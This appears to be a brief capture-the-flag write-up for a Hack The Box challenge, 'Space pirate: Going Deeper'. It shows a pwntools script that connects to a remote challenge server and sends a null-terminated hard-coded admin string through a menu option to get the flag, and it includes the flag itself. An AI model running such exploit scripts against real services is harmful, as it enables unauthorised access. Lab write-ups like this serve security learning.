


## Space pirate: Going Deeper

Open the file in IDA:



Crafted the following script:

- NOTE: Need to NULL terminate the string since it is sent as bytes! 

```python
from pwn import * 

p = remote('138.68.150.120',30983)

admin = b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00'
#a1 = p64(0xDEADBEEF)
#a2 = p64(0x1337C0DE)
#a3 = p64(0x1337BEEF)
p.recvuntil(b'>>')
p.sendline(b'2')
p.recvuntil(b'Username: ')
p.sendline(admin)
print(p.recvall())
```

Running the script produced the flag:



`HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}`

---
